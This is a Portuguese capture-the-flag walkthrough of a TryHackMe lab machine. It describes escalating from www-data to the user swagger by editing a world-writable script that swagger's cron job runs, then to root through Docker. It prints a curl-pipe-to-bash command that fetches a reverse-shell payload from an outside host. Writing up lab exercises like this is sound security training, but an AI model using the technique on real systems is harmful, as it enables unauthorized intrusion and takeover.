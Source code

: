 🚀 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário '👑 `swagger`'

### Situação:
- Existe um arquivo chamado `📜`script.sh`` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-`swagger` user-`swagger` 184 Jun 1 2023 `script.sh`
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário '👑 `swagger`'**, que tem mais privilégios que o usuário atual (`👤 `www-data``).

### Problema:
- Estamos logados como `👤 `www-data``, um usuário limitado.
- Executar o script manualmente com `👤 `www-data`` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `👤 `www-data``.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei privilégio do meu próprio usuário e consegui, mas não saí do próprio 👤 `www-data`.

### Solução:
1. Editar o 📜 script.sh e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   📡 `  curl http://192.168.100.168:8000/shell_2.sh | bash  `
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `👑 `swagger``, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do '👑 `swagger`' executa o script que você editou**.

---

### Agora vamos alterar o conteúdo do arquivo e colocá-lo para buscar naquele mesmo servidor Python, baixar e executar o comando do arquivo dentro do bash, enquanto escutamos do outro lado com o NC.
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell. Agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que alteramos para enviar o cmd shell.
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)

- Temos duas shells ativas agora: uma do 👤 `www-data` que era fraca e não possuía muitos privilégios, e a do 👑 `swagger` que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)

# Depois de explorar como 👑 `swagger` Encontramos um arquivo com permissão 775 
![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

Conteúdo do .backup:
```txt
#!/bin/bash
##### Script em desenvolvimento visualizar containers ######
###########################################################
######## verificando containers em execução ###############
docker ps
a=$(`docker ps` | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
🔍 `docker inspect` $a
```

# Escalando para 🛡️ `root`
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# 🖥️ `bash -li` (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
Agora é só ser feliz.

🐳 `docker ps` / 🔍 `docker inspect`
![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
🏁 **Flag Root** 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)
